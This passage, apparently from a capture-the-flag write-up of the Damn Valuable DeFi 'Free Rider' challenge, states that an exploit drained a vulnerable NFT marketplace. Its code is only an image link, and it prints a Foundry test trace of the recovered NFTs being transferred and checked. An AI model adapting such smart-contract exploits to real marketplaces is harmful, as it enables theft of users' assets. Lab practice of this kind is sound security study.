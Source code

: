 This implementation successfully exploits the vulnerabilities in the marketplace contract, acquires all NFTs, triggers the recovery process, and profits from the attack.

### Running Result

```
    ├─ [0] VM::prank(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA])
    │   └─ ← [Return]
    ├─ [28652] DamnValuableNFT::transferFrom(FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], 0)
    │   ├─ emit Transfer(from: FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], to: recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], tokenId: 0)
    │   └─ ← [Stop]
    ├─ [621] DamnValuableNFT::ownerOf(0) [staticcall]
    │   └─ ← [Return] recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]
    ├─ [0] VM::assertEq(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::prank(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA])
    │   └─ ← [Return]
    ├─ [4752] DamnValuableNFT::transferFrom(FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], 1)
    │   ├─ emit Transfer(from: FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], to: recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], tokenId: 1)
    │   └─ ← [Stop]
    ├─ [621] DamnValuableNFT::ownerOf(1) [staticcall]
    │   └─ ← [Return] recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]
    ├─ [0] VM::assertEq(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::prank(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA])
    │   └─ ← [Return]
    ├─ [4752] DamnValuableNFT::transferFrom(FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], 2)
    │   ├─ emit Transfer(from: FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], to: recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], tokenId: 2)
    │   └─ ← [Stop]
    ├─ [621] DamnValuableNFT::ownerOf(2) [staticcall]
    │   └─ ← [Return] recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]
    ├─ [0] VM::assertEq(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::prank(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA])
    │   └─ ← [Return]
    ├─ [4752] DamnValuableNFT::transferFrom(FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], 3)
    │   ├─ emit Transfer(from: FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], to: recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], tokenId: 3)
    │   └─ ← [Stop]
    ├─ [621] DamnValuableNFT::ownerOf(3) [staticcall]
    │   └─ ← [Return] recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]
    ├─ [0] VM::assertEq(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::prank(recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA])
    │   └─ ← [Return]
    ├─ [4752] DamnValuableNFT::transferFrom(FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], 4)
    │   ├─ emit Transfer(from: FreeRiderRecoveryManager: [0xa5906e11c3b7F5B832bcBf389295D44e7695b4A6], to: recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA], tokenId: 4)
    │   └─ ← [Stop]
    ├─ [621] DamnValuableNFT::ownerOf(4) [staticcall]
    │   └─ ← [Return] recoveryManagerOwner: [0x8202e87CCCc6cc631040a3dD1b7A1A54Fbbc47aA]
```